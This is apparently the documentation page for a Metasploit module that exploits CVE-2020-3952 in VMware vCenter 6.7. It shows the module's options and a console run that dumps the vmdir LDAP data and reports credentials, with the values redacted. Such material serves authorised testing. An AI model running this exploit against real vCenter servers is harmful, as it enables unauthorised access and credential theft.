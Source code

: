 ## Vulnerable Application

### Description

This module uses an anonymous-bind LDAP connection to dump data from
the vmdir service in VMware vCenter Server version 6.7 prior to the
6.7U3f update, only if upgraded from a previous release line, such as
6.0 or 6.5.

### Setup

Tested in the wild. No setup notes available at this time, as setup will
be specific to target environment.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Dump

Dump all LDAP data from the vCenter Server.

## Options

### BASE_DN

If you already have the LDAP base DN, you may set it in this option.

## Scenarios

### VMware vCenter Server 6.7 virtual appliance on ESXi

```
msf5 > use auxiliary/gather/vmware_vcenter_vmdir_ldap
msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) > options

Module options (auxiliary/gather/vmware_vcenter_vmdir_ldap):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   BASE_DN                   no        LDAP base DN if you already have it
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    636              yes       The target port
   SSL      true             no        Enable SSL on the LDAP connection


Auxiliary action:

   Name  Description
   ----  -----------
   Dump  Dump all LDAP data


msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) > set rhosts [redacted]
rhosts => [redacted]
msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) > run
[*] Running module against [redacted]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
dn: cn=DSE Root
namingcontexts: dc=vsphere,dc=local
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.1
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.2
supportedcontrol: 1.3.6.1.4.1.4203.1.9.1.3
supportedcontrol: 1.2.840.113556.1.4.417
supportedcontrol: 1.2.840.113556.1.4.319
supportedldapversion: 3
supportedsaslmechanisms: GSSAPI

[+] Discovered base DN: dc=vsphere,dc=local
[*] Dumping LDAP data from vmdir service at [redacted]:636
[+] [redacted]:636 is vulnerable to CVE-2020-3952
[*] Storing LDAP data in loot
[+] Saved LDAP data to /Users/wvu/.msf4/loot/20200417002613_default_[redacted]_VMwarevCenterS_939568.txt
[*] Password and lockout policy:
vmwpasswordchangeautounlockintervalsec: [redacted]
vmwpasswordchangefailedattemptintervalsec: [redacted]
vmwpasswordchangemaxfailedattempts: [redacted]
vmwpasswordlifetimedays: [redacted]
vmwpasswordmaxidenticaladjacentchars: [redacted]
vmwpasswordmaxlength: [redacted]
vmwpasswordminalphabeticcount: [redacted]
vmwpasswordminlength: [redacted]
vmwpasswordminlowercasecount: [redacted]
vmwpasswordminnumericcount: [redacted]
vmwpasswordminspecialcharcount: [redacted]
vmwpasswordminuppercasecount: [redacted]
vmwpasswordprohibitedpreviouscount: [redacted]

[+] Credentials found: [redacted]
[snip]
[*] Auxiliary module execution completed
msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap) >
```
